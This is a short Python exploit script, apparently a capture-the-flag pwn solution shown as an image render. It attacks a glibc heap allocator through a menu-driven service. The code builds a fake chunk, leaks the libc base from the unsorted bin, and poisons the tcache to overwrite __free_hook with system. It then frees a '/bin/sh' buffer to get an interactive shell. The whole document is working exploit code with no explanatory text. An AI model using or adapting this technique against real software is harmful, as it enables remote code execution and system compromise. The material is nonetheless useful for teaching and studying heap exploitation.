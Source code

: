 ```python
    # making fake chunk
    fake_chunk = heap_addr + 0x60

    # calculating size of large chunk
    min_size = 0x420
    c = 0
    header_size = 0x40
    sub_chunk_size = 0x50
    large_chunk_size = 0
    while large_chunk_size < min_size:
        large_chunk_size = c * sub_chunk_size + header_size
        c += 1

    print("[+] needed count of free:", c)
    print("[+] large chunk size:", large_chunk_size)

    for _ in range(c + 2):
        add(s, (p64(0) + p64(large_chunk_size + 1)) * 3)

    delete(s)
    delete(s)
    add(s, p64(fake_chunk))
    add(s)
    add(s)  # p -> faka_chunk
    delete(s)  # fake_chunk is send to unsorted bin

    libc_base = u64(show(s).ljust(8, b"\x00")) - arena_libc - 0x60
    print(hex(libc_base))

    # write to __free_hook
    add(s)
    delete(s)
    delete(s)
    add(s, p64(libc_base + free_hook_libc))
    add(s)
    add(s, p64(libc_base + system_libc))

    add(s, "/bin/sh\x00")
    delete(s)

    s.interactive()

```
